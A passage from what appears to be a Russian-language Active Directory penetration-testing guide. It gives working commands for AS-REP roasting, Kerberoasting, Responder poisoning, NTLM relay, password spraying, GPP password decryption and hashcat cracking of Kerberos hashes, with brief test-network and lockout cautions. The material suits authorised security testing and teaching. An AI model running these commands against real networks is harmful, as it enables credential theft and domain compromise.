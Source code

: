 ### Инструменты

* `GetNPUsers.py`, `GetUserSPNs.py`, `smbclient`, `smbmap`, `gpp-decrypt`, `SharpHound`.

### Примеры команд

```bash
# Поиск пользователей без preauth (AS-REP roast)
python3 GetNPUsers.py domain/ -dc-ip <dc_ip> -outputfile npusers.txt -format john

# Поиск SPN для Kerberoast
python3 GetUserSPNs.py -request -dc-ip <dc_ip> domain/ -outputfile spns.txt

# Собрать данные для BloodHound (SharpHound) — на Windows запускать SharpHound.exe
# Собранные .zip загружать в BloodHound GUI
```

### GPO и GPP

* Ищи файлы, содержащие пароли (Group Policy Preferences) — использовать `gpp-decrypt` или поиск по XML.

## 7. Фаза 3 — Атаки на аутентификацию

Цель: получить креденшелы (или хэши), провести Kerberoast/AS-REP, NTLM relays, password spraying.

### Инструменты

* `kerbrute`, `responder`, `ntlmrelayx.py`, `crackmapexec`, `hydra`, `hashcat`, `john`.

### Примеры команд

```bash
# Kerbrute — userenum
kerbrute userenum --dc <dc_ip> -d domain.local users.txt

# AS-REP roasting — GetNPUsers (см. выше)
# Kerberoast — GetUserSPNs + подбор
# Запуск Responder (только в тестовой сети)
sudo responder -I eth0 -r -d -w

# NTLM relay (импакт):
python3 ntlmrelayx.py -tf targets.txt -smb2support -whitelist <ips>

# Password spraying с kerbrute
kerbrute passwordspray --dc <dc_ip> -d domain.local users.txt password123

# Подбор хэшей с hashcat (пример для Kerberos TGS)
hashcat -m 13100 hashfile.txt wordlist.txt
```

**Важно:** password spraying и Kerberos brute-force могут привести к блокировке учёток — используйте `--safe` режимы/ограничение частоты.
